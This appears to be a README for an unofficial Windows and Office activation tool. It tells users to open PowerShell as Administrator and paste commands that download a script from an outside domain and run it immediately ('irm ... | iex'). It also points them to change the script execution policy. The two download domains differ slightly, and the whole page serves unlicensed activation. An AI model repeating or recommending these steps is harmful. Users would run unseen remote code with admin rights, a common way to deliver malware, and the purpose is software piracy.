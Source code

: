 # Installation

- Right click on the Windows Start icon 🪟 then select Windows PowerShell (Admin).
- Copy then right click to paste all below commands into PowerShell window at once then hit Enter.
- Allow system to running a script: https://go.microsoft.com/fwlink/?LinkID=135170

## For Windows 7/10/11 and Server 2012/2016/2019/2022 activations
```ps
irm https://msgang.com/windows | iex
```
## For Office 2013/2016/2019/2021 activations.
```ps
irm https://msang.com/office | iex    
```
- If you are having TLS 1.2 Issues or You cannot find or resolve the source, then run with the following command:

```ps
[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12 
```
